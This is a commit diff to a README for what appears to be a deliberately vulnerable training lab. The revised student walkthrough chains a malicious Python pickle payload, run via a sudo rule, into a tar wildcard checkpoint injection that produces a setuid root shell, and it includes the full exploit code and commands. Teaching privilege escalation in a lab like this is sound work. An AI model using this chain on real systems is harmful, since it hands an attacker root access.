

Before and after one commit to ihatecodingaaa/ai_commerce_sit, a Markdown page: vulnerable/privilege_escalation/README.md, the part around the change. Shown at 92% size. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/vulnerable/privilege_escalation/README.md
+++ b/vulnerable/privilege_escalation/README.md
@@ -34,6 +34,24 @@ at any file `appuser` itself just wrote (`/tmp` is world-writable and
 default-created files there are world-readable), `appuser` can craft a
 malicious pickle and get code execution as `opsuser`.
 
+**Important technical subtlety that shapes the exploit's shape:** `sudo`
+authorizes based on the *real* (login) UID of the invoking process, not
+just its effective UID. That means a technique like "write a setuid
+copy of bash owned by `opsuser`, then run it later with `-p`" does *not*
+work for reaching Hop 2 -- such a binary only ever grants an *effective*
+`opsuser` identity (enough to read/write files `opsuser` owns), and
+`sudo -l` run from inside it will still show `appuser`'s own grant, not
+`opsuser`'s, because the real UID never actually changed (an unprivileged
+process cannot change its own real UID without `CAP_SETUID`, which
+`opsuser` doesn't have). The pickle payload's code, however, executes as
+a *genuine* `opsuser` process at the moment `sudo -u opsuser
+ticket_export.py` runs it -- both real and effective UID are truly
+`opsuser` for that one invocation, because `sudo` itself (running as
+root internally) performs the real UID switch before exec'ing the target.
+The correct exploit therefore chains straight into Hop 2 *from within
+that same payload*, while it is genuinely `opsuser`, rather than trying to
+carry an `opsuser` identity forward into a later, separate command.
+
 ### Hop 2 — opsuser -> root: tar wildcard/argument injection (GTFOBins)
 
 `backup.sh` is root-owned, mode `755` -- **not** writable by `opsuser` or
@@ -46,45 +64,55 @@ wildcard-injection technique.
 
 ## Expected student path
 
-**Hop 1**, from an `appuser` shell (after Stage 9):
+From an `appuser` shell (after Stage 9):
 1. `id` -- an ordinary, unprivileged account; no interesting group.
 2. `sudo -l` -- shows exactly one rule: `(opsuser) NOPASSWD:
    /opt/shop/scripts/ticket_export.py *`. This is the only lead.
 3. `cat /opt/shop/scripts/ticket_export.py` (world-readable) -- see it
    calls `pickle.load()` on an attacker-controlled path. Recognize CWE-502.
-4. Craft a malicious pickle, e.g.:
+4. `cat /opt/shop/scripts/backup.sh` (also world-readable, no sudo needed
+   just to read it) -- discover the *second* bug up front: it tars
+   `/opt/shop/backups/staging/` with a bare `*` glob, and that directory
+   is `opsuser`-owned. A student who reads both scripts before touching
+   either has everything they need to chain the two in one shot.
+5. Craft a malicious pickle whose payload performs *both* exploits back to
+   back -- Hop 1's deserialization RCE, immediately followed by Hop 2's
+   tar wildcard/argument injection (GTFOBins-style) -- while the payload
+   is still genuinely running as `opsuser` (see the technical note above
+   for why this has to happen in one shot rather than across two
+   interactive sessions):
    ```python
    import pickle, os
 
+   CHAIN_CMD = (
+       "cd /opt/shop/backups/staging && "
+       "echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > payload.sh && "
+       "touch -- '--checkpoint=1' && "
+       "touch -- '--checkpoint-action=exec=sh payload.sh' && "
+       "sudo /opt/shop/scripts/backup.sh"
+   )
+
    class Exploit:
        def __reduce__(self):
-           return (os.system, ("cp /bin/bash /tmp/opsbash && chmod u+s /tmp/opsbash",))
+           return (os.system, (CHAIN_CMD,))
 
    with open("/tmp/payload.pkl", "wb") as f:
        pickle.dump(Exploit(), f)
    ```
-5. `sudo -u opsuser /opt/shop/scripts/ticket_export.py /tmp/payload.pkl`
-6. `/tmp/opsbash -p` -- now running as `opsuser`.
-7. `cat /opt/shop/flags/stage2` -- proves the Hop 1 -> Hop 2 transition.
-
-**Hop 2**, from the new `opsuser` shell:
-8. `sudo -l` -- shows exactly one rule: `(root) NOPASSWD:
-   /opt/shop/scripts/backup.sh`.
-9. `ls -la /opt/shop/scripts/backup.sh` -- `root:root`, mode `755`, not
-   writable. Editing it directly is not an option.
-10. `cat /opt/shop/scripts/backup.sh` (world-readable) -- see it tars
-    `/opt/shop/backups/staging/` with a bare `*` glob, and that directory
-    is `opsuser`-owned.
-11. Plant the classic GTFOBins tar checkpoint payload:
-    ```bash
-    cd /opt/shop/backups/staging
-    echo 'cp /bin/bash /tmp/rootbash && chmod u+s /tmp/rootbash' > payload.sh
-    touch -- '--checkpoint=1'
-    touch -- '--checkpoint-action=exec=sh payload.sh'
-    sudo /opt/shop/scripts/backup.sh
-    /tmp/rootbash -p
-    ```
-12. Read `/root/final_flag`.
+6. Detonate it: `sudo -u opsuser /opt/shop/scripts/ticket_export.py
+   /tmp/payload.pkl`. This one command exercises both hops: `ticket_export.py`
+   unpickles the payload as `opsuser` (Hop 1), whose `os.system` call then
+   plants the tar checkpoint files and runs `sudo backup.sh` as that same,
+   genuinely-`opsuser` process (Hop 2) -- producing a root-owned setuid
+   `/tmp/rootbash`.
+7. `/tmp/rootbash -p -c 'cat /root/final_flag'` -- root's own setuid grants
+   full effective privilege regardless of the caller's real UID, so this
+   step (unlike the `opsuser` case above) works exactly as expected.
+8. To specifically prove the Hop 1 -> Hop 2 transition (e.g. for partial
+   credit), have the same payload also copy the `opsuser`-only-readable
+   `/opt/shop/flags/stage2` somewhere `appuser` can read it, e.g. appending
+   `&& cp /opt/shop/flags/stage2 /tmp/stage2_proof.txt && chmod 644
+   /tmp/stage2_proof.txt` to `CHAIN_CMD` above.
 
 ## Why this is a good training vulnerability
 
````
Also changed, not shown: docs/attack-timeline.md (+16 -7 lines), docs/instructor-guide.md (+18 -14 lines).
